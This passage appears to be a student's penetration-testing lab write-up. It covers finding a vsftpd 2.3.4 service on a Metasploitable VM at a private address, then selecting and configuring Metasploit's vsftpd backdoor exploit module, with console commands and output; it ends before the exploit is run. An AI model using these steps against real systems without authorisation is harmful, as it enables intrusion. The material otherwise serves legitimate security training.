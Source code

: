 Also `services` now has this line:
```bash
host          port   proto  name         state  info
----          ----   -----  ----         -----  ----
192.168.66.4  21     tcp    ftp          open   vsftpd 2.3.4
```

So theres `vsftpd` service running in `port 21` in address `192.168.66.4`

---
### f) Murtaudu Metasploitablen VsFtpd-palveluun Metasploitilla (search vsftpd, use 0, set RHOSTS - varmista osoite huolella, exploit, id)

Now after finding out the address, port and service, i proceeded to breaking in!   
First checked if theres an exploit in Metasploit for that service mentioned in assignment **e)**

```bash
msf6 > search vsftpd 2.3.4

Matching Modules
================

   #  Name                                  Disclosure Date  Rank       Check  Description
   -  ----                                  ---------------  ----       -----  -----------
   0  exploit/unix/ftp/vsftpd_234_backdoor  2011-07-03       excellent  No     VSFTPD v2.3.4 Backdoor Command Execution


Interact with a module by name or index. For example info 0, use 0 or use exploit/unix/ftp/vsftpd_234_backdoor

msf6 > 

```
Found an exploit!  

Selected it:
```
msf6 > use 0
[*] No payload configured, defaulting to cmd/unix/interact
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > 
```
Checked options:
```bash
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > options

Module options (exploit/unix/ftp/vsftpd_234_backdoor):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS                   yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/ba
                                      sics/using-metasploit.html
   RPORT   21               yes       The target port (TCP)


Payload options (cmd/unix/interact):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Exploit target:

   Id  Name
```
